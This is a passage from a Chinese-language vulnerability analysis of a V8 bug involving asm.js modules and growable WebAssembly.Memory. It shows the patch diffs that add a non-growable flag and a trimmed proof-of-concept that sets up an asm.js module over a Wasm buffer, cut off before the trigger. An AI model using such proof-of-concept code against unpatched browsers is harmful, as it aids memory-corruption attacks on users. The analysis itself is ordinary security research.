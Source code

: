 其中`initial:200`代表申请200页大小的内存，每页为`0x10000`。使用`WebAssembly.Memory`的好处是其申请的内存空间可以扩展，如果想要扩充空间，·只需调用`grow`函数。而`ArrayBuffer`的话不能做到空间扩充。

```
memory.grow(1); //扩充1页的内存
```



## 0x02 漏洞分析

### <a class="reference-link" name="patch%E5%88%86%E6%9E%90"></a>patch分析

patch的地方比较多，经过分析，比较关键的地方是这两处

```
index cecf460..24b9091 100644
--- a/src/asmjs/asm-js.cc
+++ b/src/asmjs/asm-js.cc
@@ -374,6 +374,7 @@
       ReportInstantiationFailure(script, position, "Requires heap buffer");
       return MaybeHandle&lt;Object&gt;();
     `}`
+    memory-&gt;set_is_growable(false);
     size_t size = NumberToSize(memory-&gt;byte_length());
     // TODO(mstarzinger): We currently only limit byte length of the buffer to
     // be a multiple of 8, we should enforce the stricter spec limits here.
```

```
diff --git a/src/wasm/wasm-js.cc b/src/wasm/wasm-js.cc
index bad1a21..631d94a 100644
--- a/src/wasm/wasm-js.cc
+++ b/src/wasm/wasm-js.cc
@@ -753,6 +753,10 @@
     max_size64 = i::FLAG_wasm_max_mem_pages;
   `}`
   i::Handle&lt;i::JSArrayBuffer&gt; old_buffer(receiver-&gt;array_buffer());
+  if (!old_buffer-&gt;is_growable()) `{`
+    thrower.RangeError("This memory cannot be grown");
+    return;
+  `}`
   uint32_t old_size =
       old_buffer-&gt;byte_length()-&gt;Number() / i::wasm::kSpecMaxWasmMemoryPages;
   int64_t new_size64 = old_size + delta_size;
```

主要是为`asm.js`的`memory`设置了一个标记，不允许我们在memory传给`asm.js`的模块以后再调用`memory.grow()`函数。<br>
其精简后的POC如下

```
function module(stdlib,foreign,buffer) `{`
  "use asm";
  var fl = new stdlib.Uint32Array(buffer);
  function f1(x) `{`
    x = x | 0;
    fl[0] = x;
  `}`
  return f1;
`}`

var global = `{`Uint32Array:Uint32Array`}`;
var env = `{``}`;
var memory = new WebAssembly.Memory(`{`initial:200`}`);
var buffer = memory.buffer;
var evil_f = module(global,env,buffer);

```